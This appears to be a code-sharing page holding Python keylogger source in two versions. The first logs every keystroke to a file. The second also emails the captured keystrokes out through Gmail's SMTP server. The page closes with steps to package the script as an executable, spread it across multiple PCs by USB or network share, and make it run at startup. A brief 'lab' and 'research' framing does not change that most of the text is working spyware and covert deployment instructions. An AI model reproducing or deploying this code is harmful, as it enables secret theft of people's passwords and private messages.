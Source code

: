 # KEYLOG
# CODE 1


from pynput import keyboard

log_file = "keystrokes.txt"

def on_press(key):
    try:
        with open(log_file, "a") as file:
            file.write(f"{key.char}")  # Logs characters
    except AttributeError:
        with open(log_file, "a") as file:
            file.write(f" {key} ")  # Logs special keys

# Start listening to the keyboard
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()



# <!--Step on how to use--!>
Run this in a controlled lab environment.
Analyze the logs and understand how keyloggers store data.
Study detection methods like behavioral analysis, process monitoring, and anti-keylogging software.



# CODE 2

import smtplib
from email.message import EmailMessage
from pynput import keyboard

LOG_FILE = "keystrokes.txt"
EMAIL_ADDRESS = "your_email@gmail.com"
EMAIL_PASSWORD = "your_password"  # Use App Passwords for security!

def send_email():
    with open(LOG_FILE, "r") as file:
        data = file.read()

    msg = EmailMessage()
    msg.set_content(data)
    msg["Subject"] = "Keystroke Logs"
    msg["From"] = EMAIL_ADDRESS
    msg["To"] = EMAIL_ADDRESS  # Send to yourself or another test email

    with smtplib.SMTP_SSL("smtp.gmail.com", 465) as server:
        server.login(EMAIL_ADDRESS, EMAIL_PASSWORD)
        server.send_message(msg)

def on_press(key):
    try:
        with open(LOG_FILE, "a") as file:
            file.write(f"{key.char}")
    except AttributeError:
        with open(LOG_FILE, "a") as file:
            file.write(f" {key} ")

# Automatically send logs every few minutes
with keyboard.Listener(on_press=on_press) as listener:
    listener.join()
    send_email()






# Step 2:
After the code we can use this step

# Deploying on Multiple PCs (For Research)
# Convert the script into an executable (.exe) using pyinstaller:

pyinstaller --onefile keylogger.py

# Store it on a USB drive or deploy via network sharing.
# Use task scheduling (Windows Task Scheduler, crontab) to run it at startup.



